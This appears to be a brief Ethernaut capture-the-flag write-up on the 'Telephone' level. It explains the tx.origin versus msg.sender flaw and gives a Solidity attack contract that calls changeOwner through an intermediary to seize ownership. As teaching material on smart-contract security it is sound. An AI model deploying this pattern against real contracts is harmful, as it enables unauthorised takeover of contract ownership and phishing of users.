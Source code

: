 The vulnerability of the smart contract lies on the difference between tx.origin and msg.sender.

This contract aims to teach how using tx.origin is not always a good practice, since a bad implementation might turn users into the target of phishing attacks.




```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

//Contract meant for breaking the Telephone smart contract from ethernaut:
//https://ethernaut.openzeppelin.com/level/0x2C2307bb8824a0AbBf2CC7D76d8e63374D2f8446

interface Telephone {

    function changeOwner(address _owner) external;

}

contract BreakTelephone {

    address public owner;

    modifier onlyOwner(){
        require(msg.sender == owner);
        _;
    }

    constructor() {
        owner = msg.sender;
    }


    function callChangeOwner(address newOwner, address contract_address) public onlyOwner{
        Telephone(contract_address).changeOwner(newOwner);
    }

    
}
```